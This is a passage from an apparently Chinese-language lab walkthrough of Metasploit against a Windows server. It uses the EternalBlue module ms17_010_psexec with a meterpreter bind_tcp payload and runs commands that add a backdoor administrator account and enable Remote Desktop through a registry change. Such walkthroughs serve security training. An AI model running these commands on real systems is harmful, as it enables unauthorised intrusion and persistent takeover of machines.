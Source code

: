 这里相当于发送whoami给windows server，返回系统用户名

```
set command whoami

run
```

![image-20241210231917436](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441602.png)

这个是新增用户(不过这里没run)

```
set command net user lyq djxlyq63 /add
```

![image-20241210232146623](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441600.png)

将新增的用户加到管理组(不过这里没run，参考第一问，为远程登录做准备)

```
set command net localgroup administrators lyq /add
```

![image-20241210232058221](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441897.png)

这个是修改系统注册表信息，添加fDenyTSConnections 变量，格式为REG_DWORD ,值为0，相当于开启远程登录，打开3389端口。

```
set command "reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f"
```

![image-20241210232316845](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441914.png)

```
run
```

![image-20241210232344534](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441927.png)

选用永恒之蓝攻击模块

```
use exploit/windows/smb/ms17_010_psexec
```

![image-20241210232427300](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441940.png)

选用攻击载荷

可以通过show payloads查看可以利用的载荷

```
set payload windows/meterpreter/bind_tcp
```

![image-20241210232450815](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441956.png)

